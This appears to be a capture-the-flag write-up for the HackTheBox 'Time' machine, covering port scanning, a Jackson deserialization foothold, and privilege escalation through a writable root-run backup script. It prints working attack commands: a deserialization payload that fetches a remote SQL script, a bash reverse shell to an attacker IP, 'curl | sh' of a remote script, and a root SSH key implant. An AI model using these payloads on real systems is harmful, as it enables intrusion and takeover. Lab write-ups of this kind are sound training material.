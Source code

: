 ```yaml
---
title: " HackTheBox {Time}"
description: Walkthrough of the Time Machine on Hackthebox.
---
```

![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)

## {0x1} Scanning port

```sh
PORT STATE SERVICE VERSION 
22/tcp open ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu (Ubuntu Linux;
protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that there is the ssh/22 port and the 80 / http port which are open.

We are going to see the http/80 port to see what is interesting.

We see an online json beautifier & Validator with 2 options, "Beatify" & "Validate!(Beta)".

![A](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)

I intercepted both options in burpsuite and i have just input sample JSON datain the input field, select Beautify option and click on the PROCESS button. We can see this working. 
Now try the same on "Validate! (Beta)" options : 

![a](https://media.discordapp.net/attachments/490431433559506954/832954307493756969/unknown.png)

You got an error ! 
```
Validation failed: Unhandled Java exception:com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object
```


## {0x2} Foothold

I pasted the error message: ```Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object``` on google, I came across an article from stackoverflow.  <a href="https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array">here article</a>

The error is related to Jackson Polymorphic Deserialization expected START_ARRAY.

Now, you need to create a inject.sql files and add a reverse shell to have it call back to me. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.90/1337 0>&1 &')
```

Now, start a netcat listener :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Now inject the payload to : "Validate!(Beta)".

```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/inject.sql'”}]
```

and you got a reverseshell running as the user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.10.214] 42212
```

Now for a good stable shell, type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```
Got the user flag : 

```
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```
## {0x3} Privilege Escalation

Try to upload linpeas ( LinPEAS is a script that search for possible paths to escalate privileges on Linux )

Install linpeas <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>

Start python server where are your linpeas.sh file and curl to the target machine.

```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

We can see that root has been accessing this file: “/usr/bin/timer_backup.sh”. Which is owned by your user and writeable.

![ak](https://media.discordapp.net/attachments/490431433559506954/832944544067878932/unknown.png)

You need to create your ssh key, add our SSH public key to the authorized_keys file on the server. To do this follow commands :

```sh
ssh-keygen
( no passphrase ) 
Copy your id_rsa.pub key 
and paste this command in target machine : echo "echo id_rsa.pub >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

Now just : ```chmod 600 id_rsa && ssh -i id_rsa root@10.10.10.214```

Done ! 

```sh
root@time:~# whoami
root
root@time:~# id
uid=0(root) gid=0(root) groups=0(root) 
```

Got the root flag 

```sh
root@time:~# cat /root/root.txt
adsd9hf0c86b8786477033415e3018a4
```
## Summary Of Knowledge : 

- Java Deserialization
- System Timer Exploitation

## About me :

- Post author : x0ld
- Github : https://github.com/x0ld
- Twitter : @x0ld7

![ak](https://www.hackthebox.eu/badge/image/491690)

